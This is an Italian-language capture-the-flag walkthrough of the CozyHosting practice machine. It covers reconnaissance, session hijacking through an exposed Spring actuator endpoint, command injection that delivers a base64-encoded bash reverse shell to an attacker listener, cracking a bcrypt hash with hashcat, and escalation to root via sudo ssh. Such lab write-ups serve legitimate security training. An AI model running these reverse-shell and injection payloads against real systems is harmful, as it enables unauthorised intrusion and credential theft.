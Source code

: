 # CozyHosting

## Reconnaissance

Per prima cosa eseguo una scansione iniziale con nmap.

```text
sudo nmap -sC -sV -O -oA /usr/share/nmap/initial 10.10.11.230
```

* **-sC**: scipt nmap di default
* **-sV**: per rilevare la versione dei servizi
* **-O**: per rilevare il SO
* **-oA**: per stampare tutti i formati e salvarli nel file _nmap/initial_

Le porte aperte sono le seguenti:

* **Porta 22**: OpenSSH 8.9p1
* **Porta 80**:  nginx 1.18.0

```text
Nmap scan report for cozyhosting.htb (10.10.11.230)
Host is up (0.050s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Cozy Hosting - Home
|_http-server-header: nginx/1.18.0 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=9/22%OT=22%CT=1%CU=33530%PV=Y%DS=2%DC=I%G=Y%TM=650D966
OS:0%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)SEQ
OS:(SP=105%GCD=1%ISR=10A%TI=Z%CI=Z%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O
OS:3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=FE88%W2=
OS:FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

Innanzitutto, vedo cosa c'è sulla porta 80:

<p align="center">
  <img src="/Immagini/Linux-Box/CozyHosting/cozyhosting-1.png" />
</p>

Aggiungo il nome di dominio _cozyhosting.htb_ al file _/etc/hosts/_.

Utilizzo _dirb_, dal quale ottengo il seguente risultato:

```text
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Sep 22 09:35:26 2023
URL_BASE: http://cozyhosting.htb/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://cozyhosting.htb/ ----
+ http://cozyhosting.htb/admin (CODE:401|SIZE:97)                                                                                                                   
+ http://cozyhosting.htb/error (CODE:500|SIZE:73)                                                                                                                   
+ http://cozyhosting.htb/index (CODE:200|SIZE:12706)                                                                                                                
+ http://cozyhosting.htb/login (CODE:200|SIZE:4431)                                                                                                                 
+ http://cozyhosting.htb/logout (CODE:204|SIZE:0)                                                                                     

-----------------
END_TIME: Fri Sep 22 09:39:52 2023
DOWNLOADED: 4612 - FOUND: 5

```

Ma non trovo nulla di interessante. Quindi provo con _dirsearch_:

```text
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /home/kali/.dirsearch/reports/cozyhosting.htb/-_23-09-22_11-03-50.txt

Error Log: /home/kali/.dirsearch/logs/errors-23-09-22_11-03-50.log

Target: http://cozyhosting.htb/

[11:03:50] Starting:
[11:03:58] 200 -    0B  - /Citrix//AccessPlatform/auth/clientscripts/cookies.js
[11:04:02] 400 -  435B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
[11:04:03] 400 -  435B  - /a%5c.aspx
[11:04:04] 200 -    5KB - /actuator/env
[11:04:04] 200 -  634B  - /actuator
[11:04:04] 200 -   15B  - /actuator/health
[11:04:04] 200 -   10KB - /actuator/mappings
[11:04:04] 200 -   48B  - /actuator/sessions
[11:04:04] 200 -  124KB - /actuator/beans
[11:04:04] 401 -   97B  - /admin
[11:04:26] 200 -    0B  - /engine/classes/swfupload//swfupload.swf
[11:04:26] 200 -    0B  - /engine/classes/swfupload//swfupload_f9.swf
[11:04:26] 500 -   73B  - /error
[11:04:26] 200 -    0B  - /examples/jsp/%252e%252e/%252e%252e/manager/html/
[11:04:27] 200 -    0B  - /extjs/resources//charts.swf
[11:04:30] 200 -    0B  - /html/js/misc/swfupload//swfupload.swf
[11:04:31] 200 -   12KB - /index
[11:04:35] 200 -    4KB - /login
[11:04:35] 200 -    0B  - /login.wdm%2e
[11:04:35] 204 -    0B  - /logout
[11:04:50] 400 -  435B  - /servlet/%C0%AE%C0%AE%C0%AF

Task Completed

```

Visito la pagina http://cozyhosting.htb/actuator/sessions:

<p align="center">
  <img src="/Immagini/Linux-Box/CozyHosting/cozyhosting-2.png"/>
</p>

Da qui riesco a recuperare l'id di sessione dell'utente _kanderson_. Utilizzando _burp_ riesco ad entrare nella pagina http://cozyhosting.htb/admin con l'id di sessione appena scoperto:

<p align="center">
  <img src="/Immagini/Linux-Box/CozyHosting/cozyhosting-3.png"/>
</p>

Provo ad utilzzare il form riempendo i campi e inviando la richiesta:

<p align="center">
  <img src="/Immagini/Linux-Box/CozyHosting/cozyhosting-4.png"/>
</p>

Intercetto la richiesta su burp:

<p align="center">
  <img src="/Immagini/Linux-Box/CozyHosting/cozyhosting-5.png"/>
</p>

Invio la richiesta al Repeater e la modifico eliminando l'username. Dalla risposta ricevuta capisco che potrebbe essere vulberabile al command injection.

## Exploitation

Per provare a sfruttare questa vulnerabilità avvio un listener sulla porta 4444 e trasformo in base64 il seguente comando:

```text
"bash -i >& /dev/tcp/10.10.14.8/4444 0>&1"
```

```text
echo "bash -i >& /dev/tcp/10.10.14.8/4444 0>&1" | base64 -w 0
```

Ottenendo questo:

```text
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44LzQ0NDQgMD4mMQo=
```

Provo ad inviare nuovamente la richiesta inserendo nel campo username il seguente testo:

```text
;echo${IFS}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44LzQ0NDQgMD4mMQo="|base64${IFS}-d|bash;
```

<p align="center">
  <img src="/Immagini/Linux-Box/CozyHosting/cozyhosting-6.png"/>
</p>

**Sono dentro!**

<p align="center">
  <img src="/Immagini/Linux-Box/CozyHosting/cozyhosting-7.png"/>
</p>


## Privilege Escalation

Per prima cosa trasferisco sulla mia macchina il file _cloudhosting-0.0.1.jar_.

Per farlo avvio un server http (porta 8888) tramite python sulla macchia cozyhosting e scarico il file visitando la pagina http://10.10.11.230:8888:


<p align="center">
  <img src="/Immagini/Linux-Box/CozyHosting/cozyhosting-8.png"/>
</p>

Ispezionando il jar mi imbatto nel seguente file:

<p align="center">
  <img src="/Immagini/Linux-Box/CozyHosting/cozyhosting-9.png"/>
</p>

Quindi utilizzo le credenziali trovate per accedere al DB POSTGRESQL:

<p align="center">
  <img src="/Immagini/Linux-Box/CozyHosting/cozyhosting-10.png"/>
</p>

Provo ad ottenere informazioni sull'hash trovato tramite il comando _hashid_:


```text
Analyzing '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm'
[+] Blowfish(OpenBSD)
[+] Woltlab Burning Board 4.x
[+] bcrypt
```

Quindi cerco di scoprire la password nascosta dietro l'hash tramite _hashcat_:

```text
echo '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm' > hash.txt      
```                                                                                                                                    
```text
hashcat -a 0 -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
```

Questo è l'output del comando:

```text
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
```

**Ho la password per l'utente josh!**

<p align="center">
  <img src="/Immagini/Linux-Box/CozyHosting/cozyhosting-11.png"/>
</p>


Ora bisogna capire come diventare l'utente root. Per prima cosa controllo i permessi dell'utente:

<p align="center">
  <img src="/Immagini/Linux-Box/CozyHosting/cozyhosting-12.png"/>
</p>

Sfrutto la seguente [guida](https://gtfobins.github.io/gtfobins/ssh/#sudo) per diventare l'utente root:

<p align="center">
  <img src="/Immagini/Linux-Box/CozyHosting/cozyhosting-13.png"/>
</p>
